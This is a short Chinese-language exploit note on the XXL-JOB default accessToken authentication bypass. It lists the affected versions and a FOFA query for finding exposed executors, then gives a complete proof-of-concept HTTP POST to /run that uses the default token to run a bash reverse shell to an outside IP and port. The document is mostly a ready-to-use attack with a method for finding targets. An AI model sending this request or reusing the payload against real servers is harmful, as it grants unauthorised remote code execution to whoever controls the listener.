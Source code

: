 ## XXL-JOB默认accessToken身份绕过漏洞

XXL-JOB是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。该漏洞是由于XXL-JOB 在默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值，如果用户没有修改该默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，导致远程代码执行。

## 漏洞影响

```
2.31< XXL-JOB <= 2.4.0
```

## fofa

```
"invalid request, HttpMethod not support" && port="9999"
```

## poc

请求头加上XXL-JOB-ACCESS-TOKEN: default_token

```
POST /run HTTP/1.1
Host: 127.0.0.1:9999
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "bash -i >& /dev/tcp/192.168.0.101/8085 0>&1",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![image-20240706142307631](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407061423702.png)

## 漏洞复现

```
https://mp.weixin.qq.com/s/9vcIRCbKyisFq3vPXmiMkQ
https://www.cnblogs.com/chm0d/p/17805168.html
```

